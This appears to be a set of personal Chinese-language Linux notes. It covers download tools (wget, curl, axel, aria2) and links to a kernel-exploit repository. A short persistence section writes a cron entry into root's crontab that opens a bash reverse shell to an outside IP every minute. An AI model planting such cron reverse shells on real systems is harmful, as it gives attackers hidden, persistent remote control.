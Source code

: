 # Linux

[bsauce/kernel-exploit-factory: Linux kernel CVE exploit analysis report and relative debug environment. You don't need to compile Linux kernel and configure your environment anymore. --- bsauce/kernel-exploit-factory：Linux 内核 CVE 漏洞利用分析报告和相关调试环境。您不再需要编译 Linux 内核和配置您的环境。 (github.com)](https://github.com/bsauce/kernel-exploit-factory)

---

## 命令行-下载

### wget

```bash
# 直接下载 
wget http://www.sample-videos.com/video/mp4/big.mp4
# 后台下载
wget -b http://www.sample-videos.com/video/mp4/big.mp4
# 如果网络连接中断,恢复下载
wget -c http://www.sample-videos.com/video/mp4/big.mp4
# 从某个密码保护的 ftp 软件库下载文件
wget --ftp-user=<user_name> --ftp-password=<Give_password> Download-url-address
```

---

### curl

Curl 是另一种高效的下载工具，它可以用来上传或下载文件，只要使用一个简单的命令。它支持暂停和恢复下载程序包，并支持数量最多的 Web 协议，可预测下载完成还剩余多少时间，可通过进度条来显示下载进度。它是所有 Linux 发行版的内置工具。

```bash
# 直接下载
curl -o um.mp4 http://www.sample-videos.com/video/mp4/big.mp4
```

- `-o` : 提供名称，下载文件会以该名称保存
- `-O` : 文件就会以原始名称保存

---

### Axel

这是 wget 的出色替代者，是一款轻量级下载实用工具。它实际上是个加速器，因为它打开了多路 http 连接，可下载独立文件片段，因而文件下载起来更快速。

```bash
apt-get install axel
```

```bash
# 直接下载
axel http://www.sample-videos.com/video/mp4/big.mp4
```

---

### Aria2

这是一种开源命令行下载加速器，支持多个端口，你可以使用最大带宽来下载文件，是一款易于安装、易于使用的工具。

```bash
apt-get install aria2
```

```bash
# 直接下载
aria2c http://www.sample-videos.com/video/mp4/big.mp4
```

---

## 权限维持

### 计划任务(TODO)

> log 显示运行了, 但是回连不上, 很奇怪

检查任务计划服务是否正常运行

```bash
service cron status
```

![image-20241112155442750](http://cdn.ayusummer233.top/DailyNotes/202411121554522.png)

---

查看当前计划任务

```bash
crontab -l
```

![image-20241112155919656](http://cdn.ayusummer233.top/DailyNotes/202411121559597.png)

---

写入计划任务

```bash
echo "*/1 * * * * bash -i >& /dev/tcp/100.1.1.131/7778 0>&1" > /var/spool/cron/crontabs/root

echo "*/1 * * * * echo 233>>/tmp/233" >> /var/spool/cron/crontabs/root
```

---

要删除这个计划任务需要编辑 `/var/spool/cron/crontabs/root`文件, 把这行删除即可

---

> 奇怪的是 log 显示运行完了, 但是收不到 shell:
>
> ![image-20241112180823702](http://cdn.ayusummer233.top/DailyNotes/202411121808685.png)
>
> ![image-20241112181122435](http://cdn.ayusummer233.top/DailyNotes/202411121939089.png)



















